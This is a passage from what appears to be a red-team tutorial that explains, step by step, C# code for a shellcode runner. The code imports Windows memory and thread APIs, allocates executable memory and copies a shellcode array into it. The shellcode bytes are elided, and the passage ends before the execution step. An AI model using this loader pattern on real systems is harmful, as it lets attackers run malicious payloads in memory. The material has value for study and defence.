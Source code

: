 Here’s an explanation of the `ShellcodeRunner` code:


1. **Imports unmanaged API Call from kernel32.dll**
   ```csharp
   [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
   static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
   
   [DllImport("kernel32.dll", SetLastError = true)]
   static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
   
   [DllImport("kernel32.dll", SetLastError = true)]
   static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
   
   [DllImport("kernel32.dll", SetLastError = true)]
   static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
   ```

2. **Memory Allocation Constants**
   ```csharp
   const uint MEM_COMMIT = 0x1000;
   const uint MEM_RESERVE = 0x2000;
   const uint PAGE_EXECUTE_READWRITE = 0x40;
   const uint INFINITE = 0xFFFFFFFF;
   ```
   These constants are used with the `VirtualAlloc` and `VirtualProtect` functions to allocate memory and set the appropriate permissions.

3. **Shellcode Definition**
   ```csharp
   byte[] shellcode = new byte[276] { ... };
   ```
  Our Shellcode generated.

4. **Memory Allocation**
   ```csharp
   IntPtr allocatedMemory = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
   
   if (allocatedMemory == IntPtr.Zero)
   {
       throw new System.ComponentModel.Win32Exception(Marshal.GetLastWin32Error());
   }
   ```
   - **VirtualAlloc**: This function reserves and commits a block of memory where the shellcode will be copied.
   - **Error Handling**: If memory allocation fails, the program throws an exception, indicating an issue in allocating memory.

5. **Copy Shellcode to Allocated Memory**
   ```csharp
   Marshal.Copy(shellcode, 0, allocatedMemory, shellcode.Length);
   ```
   - **Marshal.Copy**: Copies the shellcode byte array into the newly allocated memory.
